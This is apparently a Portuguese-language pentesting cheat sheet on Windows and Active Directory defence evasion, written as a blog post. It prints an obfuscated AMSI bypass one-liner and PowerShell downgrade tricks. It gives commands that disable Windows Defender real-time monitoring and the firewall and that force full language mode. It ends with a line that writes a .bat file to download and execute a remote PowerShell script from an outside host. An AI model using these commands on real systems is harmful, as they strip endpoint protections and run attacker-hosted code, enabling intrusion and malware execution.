 ```yaml
---
title: "Active Directory - Resumo de Comandos"
tags: [Windows, Active Directory]
categories: ActiveDirectory
---
```


![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/defense.png)

# Considerações Iniciais

Este é um dos meus tópicos favoritos quando falamos em Windows como um todo, não é especificamente AD, mas se aplica perfeitamente a este ambiente por se tratar de máquinas Windows, por isso deixei nessa Categoria.

Dividirei em seções, não vou demonstrar na máquina a grande parte delas, apenas deixar aqui os comandos para serem utilizados.

# Defense Bypass

## AMSI Bypass

O que é AMSI? 

A Antimalware Scan Interface (AMSI) é um componente do Microsoft Windows que permite uma inspeção mais aprofundada dos serviços de script integrados.

Nota: A integração AMSI apenas está disponível no Windows 10.

Advanced malware utiliza scripts ocultos ou encriptados para evitar os métodos tradicionais de análise. Malware deste tipo é normalmente carregado diretamente na memória, pelo que não utiliza quaisquer ficheiros no dispositivo.

AMSI é uma interface que as aplicações e serviços que estão a ser executadas no Windows podem utilizar para enviar pedidos para o produto antimalware instalado no computador. Oferece uma proteção adicional contra software nocivo que utiliza scripts ou macros em componentes Windows essenciais, como PowerShell e Office365, ou outras aplicações para evadir a deteção.

Ai está a cara dele... Ele detectou o Invoke-Mimikatz como se fosse perigoso para o sistema, então não deixou executar. Eu costumo dizer que ele é um "grep" no que você digita ou tenta executar na seção, se ele verificar alguma coisa de ruim, ele bloqueia, simples assim.

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/amsi.png)

Para Bypassar ela temos algums métodos, o mais comum deles é este:

```
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

Também podemos, se conseguir, executar o powershell na versão 1.0, deve ser executado com o caminho completo

`C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe`

As vezes um simples -ep bypass também ajuda no bypass do AMSI

`powershell -ep bypass`

Podemos realizar o downgrade dele

`powershell -version 2`

Ou o upgrade, sim, o upgrade dele bypassa o AMSI

`pwsh`

Após a execução deles, possivelmente o AMSI não vai mais incomodar vocês!

## Desativar Windows Defender

O que é Windows Defender?

Microsoft Defender é um software que remove malware, trojan, spyware e adware instalados no computador. Também monitoriza o computador para evitar que estes softwares perigosos modifiquem configurações tanto do navegador, como do sistema operacional.

A cara dele é igual ao do AMSI

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/amsi.png)

Para desabilitar ele temos três modos, lembrando que para isso devemos ter privilégios elevados na máquina

`Set-MpPreference -DisableIOAVProtection $true`

`Set-MpPreference -DisableRealtimeMonitoring $true`

`sc stop WinDefend`

Após isso você a princípio não será mais incomodado pelo Windows Defender ao executar seus scripts ou executáveis na máquina alvo.

## Verificação do Language Mode

O que é esse Language Mode?

O downgrade também funciona para o Language Mode

`powershell -version 2`

$ExecutionContext.SessionState.LanguageMode
$ExecutionContext.SessionState.LanguageMode = "FullLanguage"
Colocar o Invoke-Mimikatz no final do código também funciona, não somente o Invoke-Mimikatz mas qualquer outro comando ou script

## Desativando Firewall

Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False

Verificando APPLOCKER POLICY

Get-AppLockerPolicy -Xml -Local
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleColletions

.bat Mandrake

$reverse = 'powershell.exe -c iex ((New-Object Net.WebClient).DownloadString(''http://192.168.50.196/power.ps1''))'
Out-File -Encoding Ascii -InputObject $reverse -FilePath C:\Users\Desktop\reverse.bat